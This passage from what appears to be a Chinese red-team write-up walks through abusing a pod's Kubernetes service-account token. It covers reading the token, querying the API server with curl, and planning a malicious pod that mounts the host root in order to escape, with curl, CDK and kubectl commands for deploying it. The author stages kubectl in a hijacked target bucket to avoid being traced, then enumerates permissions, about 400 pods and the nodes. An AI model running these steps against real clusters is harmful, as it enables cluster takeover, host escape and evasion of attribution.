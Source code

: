 那再看看当前 Pod 中默认 service-account 的权限吧

```bash
cat /run/secrets/kubernetes.io/serviceaccount/token
```

把一长串 Token 复制出来，用 curl 命令向 API Server 发送请求

```bash
curl -ks -H "Authorization: Bearer XXXXXXXXXX" https://10.x.x.1:6443/api/v1/namespaces/node
```

访问成功！是个高权！能搞！

<img width="800" src="/img/1686306283.png"><br>

此时我们既可以接管这个 K8s 也可以逃逸，后续利用方法有很多。

这里打算创建一个恶意 Pod，将宿主机根目录挂载这个恶意 Pod 里，然后进行逃逸，手法也有很多，比如：

1. 直接使用 curl 命令访问 6443 端口部署 Pod

```bash
curl -ks -H "Authorization: Bearer $token" -H "Content-Type: application/yaml" -d "$(cat 1.yaml)"https://10.x.x.1:6443/api/v1/namespaces/default/pods/
```
2. 或者用 CDK 进行部署

```bash
./cdk kcurl default post 'https://10.x.x.1:6443/api/v1/namespaces/default/pods?fieldManager=kubectl-client-side-apply' '{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"11\",\"namespace\":\"default\"},\"spec\":{\"conta此处省略一个yaml文件内容...........
```

3. 再或者直接甩一个 Kubectl 上去，默认访问的就是 6443 端口，直接 `apply -f` 就行

这里选择第三种，越简单越好，但是这次目标又不能弹 Shell，又不能被溯源到 IP，刚好前面劫持了目标的一个 Bucket，于是把 Kubectl 扔上去，直接在 Pod 里下载

下载完后，再次确认以下当前默认 service-account权限

```bash
./kubectl auth can-i --list
```

<img width="1000" src="/img/1686306781.png"><br>

你看看！你看看！就很舒服

再看看有多少个 Pod，重度打码了啊，大家能看懂就好

```bash
./kubectl get pod -o wide --all-namespaces
```

还行，四百来个，能玩

<img width="1000" src="/img/1686306846.png"><br>

看看有几个节点

```bash
./kubectl get nodes --show-labels
```
